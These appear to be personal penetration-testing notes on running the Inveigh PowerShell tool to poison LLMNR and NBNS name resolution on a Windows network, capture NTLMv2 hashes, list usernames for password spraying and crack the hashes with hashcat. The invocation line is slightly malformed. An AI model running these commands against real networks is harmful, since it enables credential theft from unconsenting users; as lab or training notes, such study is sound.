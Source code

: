 use Inveigh [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

- `PS C:\dollarboy> Import-Module .\Inveigh.ps1`-> Import Inveigh module
- `PS C:\dollarboy> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y`  
    **Explanation:**  
    `-LLMNR Y`: Enable LLMNR poisoning.  
    `-NBNS Y`: Enable NBNS poisoning.  
    `-ConsoleOutput Y`: Display captured hashes in the PowerShell console.  
    additionally we can use `-FileOutput Y` to save into file
- Press esc to enter console where can enter commands:
	- `GET NTLMV2UNIQUE` shows all capture hashes
	- `GET NTLMV2USERNAMES` list usernames collected (for spraying)

Once the NTLMv2 Hash is captured, crack with hashcat.

+ We can use executable (C#) version of Inveigh. C# version is constantly updated.\